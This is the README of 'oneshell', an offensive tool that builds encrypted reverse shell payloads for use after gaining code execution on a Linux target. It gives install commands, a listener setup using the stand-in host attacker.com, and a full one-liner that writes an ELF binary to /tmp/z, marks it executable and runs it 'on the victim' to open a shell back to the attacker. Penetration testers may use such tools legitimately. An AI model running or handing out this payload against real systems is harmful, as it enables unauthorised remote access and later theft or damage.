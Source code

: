 # One Shell To Rule Them All

![image](https://github.com/user-attachments/assets/4a390578-47cb-423a-87ca-ad681a46731c)

# Blog

For a detailed explanation of how the tool works, check out my blog on the topic [here](https://tantosec.com/blog/oneshell/).

# Installation

**Docker**

Replace `oneshell` commands with the following:

```bash
docker run --rm -it -p 9001:9001 tantosec/oneshell
```

> Remember to update the value of the `-p` option to the port you are using.

**Local install**

```bash
go install github.com/tantosec/oneshell@latest
```

**Prebuilt binary**

Download a binary from [the releases page.](https://github.com/tantosec/oneshell/releases)

# Basic Usage

If you want your payload to connect back to `localhost` on port `9001`, run the following command:

```bash
oneshell -t localhost -p 9001
```

In the real world, you will probably have an internet accessible server (for example `attacker.com`) with a firewall that allows port `9001` through. As you want the victim to connect back to `attacker.com`, you will run a command like this on the `attacker.com` machine:

```bash
oneshell -t attacker.com -p 9001
```

You should receive output similar to the following:

```
Generating temporary MTLS certificates...
Payload connects to 127.0.0.1:9001
Copy the following command and run on victim:

zy(){ if [ `echo -e` ];then echo "$1";else echo -e "$1";fi;};zy '\0177ELF\02\01\01\0\0\0\0\0\0\0\0\0\02\0>\0\01\0\0\0x\0200\02\0\0\0\0\0@\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0@\0\070\0\01\0@\0\0\0\0\0\01\0\0\0\07\0\0\0\0\0\0\0\0\0\0\0\0\0200\02\0\0\0\0\0\0\0200\02\0\0\0\0\0l\01\0\0\0\0\0\0\0354i\013\0\0\0\0\0\0\0 \0\0\0\0\0\061\0300\0260)\0277\02\0\0\0\0276\01\0\0\0\061\0322\017\05I\0211\0307\0211\0307\0276d\0201\02\0\061\0322\0262\020\061\0300\0260*\017\05\0272\0210h\013\0\061\0300\017\05)\0302\01\0306\0203\0372\0w\0363\0277\021m\01\0H\0272d\0201\02\0\0\0\0\0H\0203\0377\0\017\0216\0205\0\0\0H\0213\02H\0213\034%>\0201\02\0H1\0330H\0211\04%>\0201\02\0H1\0300H1\0311\0276\0\0\0\0\0212\04%>\0201\02\0H\0201\0376\0\01\0\0s3@\0210\0361H\0203\0341\07\02\0201\066\0201\02\0H%\0377\0\0\0\0212\0200\0\0200\02\0H\0377\0301H\0203\0341\07\02\0201>\0201\02\0\0320\0300\0210\0201>\0201\02\0H\0377\0306\0353\0304H\0203\0302\010H\0377\0317\0353\0211k.Yc3\0255`OMw\0236K\0210\0256E\0323#\02\0271\0247l\0277\0372uH\0213\04%>\0201\02\0H\0213\034%F\0201\02\0H9\0330t\01\0314\02\0#)\0177\0\0\01'>/tmp/z;chmod +x /tmp/z;/tmp/z

2024/07/15 15:51:17 Listening for connections on 0.0.0.0:9001
```

Copy the part that says

```
zy(){ if [ `echo -e` ];then echo "$1";else echo -e "$1";fi;};zy '\0177ELF\02\01\01\0\0\0\0\0\0\0\0\0\02\0>\0\01\0\0\0x\0200\02\0\0\0\0\0@\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0@\0\070\0\01\0@\0\0\0\0\0\01\0\0\0\07\0\0\0\0\0\0\0\0\0\0\0\0\0200\02\0\0\0\0\0\0\0200\02\0\0\0\0\0l\01\0\0\0\0\0\0\0354i\013\0\0\0\0\0\0\0 \0\0\0\0\0\061\0300\0260)\0277\02\0\0\0\0276\01\0\0\0\061\0322\017\05I\0211\0307\0211\0307\0276d\0201\02\0\061\0322\0262\020\061\0300\0260*\017\05\0272\0210h\013\0\061\0300\017\05)\0302\01\0306\0203\0372\0w\0363\0277\021m\01\0H\0272d\0201\02\0\0\0\0\0H\0203\0377\0\017\0216\0205\0\0\0H\0213\02H\0213\034%>\0201\02\0H1\0330H\0211\04%>\0201\02\0H1\0300H1\0311\0276\0\0\0\0\0212\04%>\0201\02\0H\0201\0376\0\01\0\0s3@\0210\0361H\0203\0341\07\02\0201\066\0201\02\0H%\0377\0\0\0\0212\0200\0\0200\02\0H\0377\0301H\0203\0341\07\02\0201>\0201\02\0\0320\0300\0210\0201>\0201\02\0H\0377\0306\0353\0304H\0203\0302\010H\0377\0317\0353\0211k.Yc3\0255`OMw\0236K\0210\0256E\0323#\02\0271\0247l\0277\0372uH\0213\04%>\0201\02\0H\0213\034%F\0201\02\0H9\0330t\01\0314\02\0#)\0177\0\0\01'>/tmp/z;chmod +x /tmp/z;/tmp/z
```

and run it on the victim. You should receive an interactive shell connection on the server, which will be secured with mutual TLS.

# Why?

Let's say that you have achieved remote code execution on a target machine and are looking to escalate your privileges. You might think to establish a reverse shell to make this process easier.
However, being a security professional, you want your connection to be encrypted to prevent data being transferred insecurely.

It turns out that there are a few ways to do this, mostly involving the `openssl` or `ncat` tools. What if you don't have these tools on the target? One solution is to download them over the internet using `curl` or `wget`. But what if the target doesn't have these binaries either? The base `ubuntu` Docker image doesn't.

"One Shell To Rule Them All", or `oneshell` for short, is a tool that can solve this problem. It does this by running an encrypted reverse shell using only the `echo` and `chmod` commands.

# Detailed requirements for a successful payload

* Target can connect to your listener via TCP
* Shell execution on the target (for example `system` in PHP)
    * This will allow using the `echo` inbuilt shell command
* x86_64 CPU (Arm64 support coming soon)
* `chmod` binary located on path
* The ability to write to the following file paths: `/tmp/x`, `/tmp/y`, `/tmp/z`

These conditions cover almost all server setups.

# References

* Basis for Tiny ELF file from [https://nathanotterness.com/2021/10/tiny_elf_modernized.html](https://nathanotterness.com/2021/10/tiny_elf_modernized.html)
* AES implementation sourced from [https://github.com/mko-x/SharedAES-GCM/tree/master/Sources](https://nathanotterness.com/2021/10/tiny_elf_modernized.html)
